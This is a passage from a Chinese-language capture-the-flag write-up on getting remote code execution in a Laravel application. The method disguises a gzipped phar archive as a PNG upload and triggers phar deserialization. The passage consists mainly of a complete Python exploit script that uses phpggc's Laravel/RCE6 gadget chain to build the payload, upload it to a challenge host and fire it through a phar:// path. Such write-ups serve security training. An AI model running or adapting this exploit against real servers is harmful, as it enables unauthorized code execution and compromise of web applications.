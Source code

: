 将zip改为png后缀进行上传，之后在触发phar反序列化从而实现RCE

[![](https://p3.ssl.qhimg.com/t01fc4fa0e97f85ac9b.png)](https://p3.ssl.qhimg.com/t01fc4fa0e97f85ac9b.png)

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%B7%A5%E5%85%B7phpggc"></a>利用工具phpggc

由于是`Laravel`主流框架，这里也可以直接使用`phpggc`来利用Laravel的链子直接生成phar包之后在通过`gzip`压缩,经过测试发现`phpggc`对Laravel的RCE5和RCE6两条链子都能成功，其中RCE5的链子就是上述所说，RCE6的链子稍微简便一点，这里感兴趣的大佬们可以自己再去分析下

贴一下调用phpggc使用**Laralvel/RCE6**写的exp:

```
# -*- coding=utf-8 -*-
# Author:Crispr
# 注意放在phpggc根目录运行

import os
import requests
import sys
import re

url = "http://b6a64602-069f-454e-a440-bfa1cfa72d57.node3.buuoj.cn/"
session = requests.session()

def create_gzfile():
    cmd = r"""php -d'readonly=0' ./phpggc Laravel/RCE6 "system('whoami');" --phar phar &gt; crispr.phar"""
    os.system(cmd)
    cmd = r"gzip crispr.phar"
    os.system(cmd)
    cmd = r"mv crispr.phar.gz crispr.phar.png"
    os.system(cmd)



def get_upload_png_path():
    files = `{`"file" : ("crispr.phar.png" , open("./crispr.phar.png","rb+"),"image/png")`}`
    r = session.post(url,files=files)
    if r.status_code == 200:
        text = r.text
        #print(text)
        path = re.findall('path: (.*?)\.png',text)[0]
        #print(path)
        return path
    else:
        print("upload false")
        return False

def deserialize(path):
    url1 = url + "image?image=phar://../storage/app/" + path + ".png"
    print(url1)
    r = session.get(url1)
    print(r.text)

if __name__ == "__main__":
    create_gzfile()
    path = get_upload_png_path()
    print(path)
    deserialize(path)
    os.unlink("crispr.phar.png")
```
